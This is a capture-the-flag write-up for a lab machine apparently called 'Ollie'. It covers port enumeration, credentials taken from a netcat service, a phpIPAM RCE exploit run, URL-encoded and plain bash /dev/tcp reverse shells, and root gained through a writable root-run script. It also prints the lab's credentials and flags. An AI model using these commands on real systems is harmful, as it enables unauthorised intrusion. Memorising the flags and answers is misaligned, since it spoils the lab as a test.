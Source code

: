 ```yaml
---
sticker: emoji//1f415
---
```


# OLLIE

## ENUMERATION

***

### OPEN PORTS

***

| PORT | SERVICE |
| ---- | ------- |
| 22   | ssh     |
| 80   | http    |
| 1337 | waste   |

## RECONNAISSANCE

***

If we check the website, we can see this:

![](gitbook/cybersecurity/images/Pasted%20image%2020250403160350.png)

We need some credentials in order to access this, we can check a hidden directory at `robots.txt`:

![](gitbook/cybersecurity/images/Pasted%20image%2020250403160417.png)

That just takes us to a Youtube video:

![](gitbook/cybersecurity/images/Pasted%20image%2020250403160441.png)

If we recall our nmap scan, we can see a strange service running at `1337`, something called `waste`, let's interact with it using netcat:

```
nc IP 1337
```

If we follow the string of the conversation, we can see this:

![](gitbook/cybersecurity/images/Pasted%20image%2020250403160543.png)

Right answer is bulldog, we can get this by either trying many times or just checking the theme of the room:

![](gitbook/cybersecurity/images/Pasted%20image%2020250403160710.png)

If we answer correctly, we get the following:

![](gitbook/cybersecurity/images/Pasted%20image%2020250403160724.png)

We got credentials:

```
admin:OllieUnixMontgomery!
```

Since we got the credentials, we can finally go inside the dashboard:

![](gitbook/cybersecurity/images/Pasted%20image%2020250403160828.png)

## EXPLOITATION

***

We are dealing with something called `phpIPAM 1.4.5`m we can search for an exploit:

![](gitbook/cybersecurity/images/Pasted%20image%2020250403160856.png)

Let's try it out.

Link: https://www.exploit-db.com/exploits/50963

```
python3 exploit.py -url http://10.10.161.122/ -usr admin -pwd 'OllieUnixMontgomery!' -cmd 'id' --path /var/www/html
```

If we use the exploit correctly, we can see this:

![](gitbook/cybersecurity/images/Pasted%20image%2020250403161633.png)

There we go, we got `rce`, let's send ourselves a shell, let's go to `evil.php` and use the following command:

```
bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2FYOUR_IP%2F4444%200%3E%261%22
```

We need to have our listener ready and once we send the command, we'll notice this:

![](gitbook/cybersecurity/images/Pasted%20image%2020250403162334.png)

Let's proceed privilege escalation.

## PRIVILEGE ESCALATION

***

First step is stabilizing our shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250403162450.png)

We can reuse the same credentials for user `ollie` inside of the shell, let's do it:

```
ollie:OllieUnixMontgomery!
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250403164153.png)

Now, we can read the `user.txt` flag:

```
ollie@hackerdog:/tmp$ cat /home/ollie/user.txt
THM{Ollie_boi_is_daH_Cut3st}
```

From here, I tried using linpeas but nothing useful was truly found on here, we can use `pspy` to check on active processes

![](gitbook/cybersecurity/images/Pasted%20image%2020250403164331.png)

Something weird is being run by root, let's check this feedme stuff:

```
ollie@hackerdog:/tmp$ find / -name feedme 2>/dev/null
/usr/bin/feedme
```

We got a binary called `feedme`, let' see it:

```
ollie@hackerdog:/tmp$ file /usr/bin/feedme
/usr/bin/feedme: Bourne-Again shell script, ASCII text executable
```

```
ls -la /usr/bin/feedme
-rwxrw-r-- 1 root ollie 30 Feb 12  2022 /usr/bin/feedme
```

We can write on the script, let's simply put a reverse shell on the file and wait for it to be executed again:

```
echo 'bash -c "bash -i >& /dev/tcp/10.6.34.159/9001 0>&1"' >> /usr/bin/feedme
```

Now, set up the listener and wait a bit to see the connection:

![](gitbook/cybersecurity/images/Pasted%20image%2020250403164633.png)

We got root finally, let's read `root.txt`:

```
root@hackerdog:/# cat /root/root.txt
THM{Ollie_Luvs_Chicken_Fries}
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250403164709.png)
